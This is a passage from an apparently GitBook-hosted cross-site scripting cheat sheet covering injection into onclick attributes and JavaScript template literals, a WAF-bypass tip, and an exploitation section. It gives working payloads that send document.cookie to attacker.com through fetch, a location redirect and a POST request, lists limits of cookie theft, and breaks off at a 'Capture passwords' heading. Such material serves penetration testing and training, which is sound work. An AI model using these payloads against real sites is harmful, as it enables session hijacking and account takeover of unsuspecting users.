 {% hint style="info" %}
**Note**: you cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure
{% endhint %}

* XSS in JavaScript template literals
  * JavaScript template literals are string literals that allow embedded JavaScript expressions (Template literals are encapsulated in backticks)

```html
<script>
...
var input = `controllable data here`;
...
</script>
${alert(document.domain)}
```

## <mark style="color:purple;">**Bypass WAF**</mark>

If you receive an error like "tag is not allowed" or "event is not allowed", use XSS cheat sheet ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) to discover a tag and event that work.

## <mark style="color:purple;">Exploitation</mark>

### &#x20;<mark style="color:purple;">S</mark><mark style="color:purple;">**teal cookies**</mark>

<pre class="language-html"><code class="lang-html"><strong>&#x3C;script>fetch('//attacker.com?'+document.cookie)&#x3C;/script>
</strong>&#x3C;!-- or -->
&#x3C;script>location='//attacker.com?'?+document.cookie&#x3C;/script>
</code></pre>

```html
<script>
fetch('https://attacker.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Limitation:

* The victim might not be logged in.
* Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
* Sessions might be locked to additional factors like the user's IP address.
* The session might time out before you're able to hijack it.

### <mark style="color:purple;">**Capture passwords**</mark>
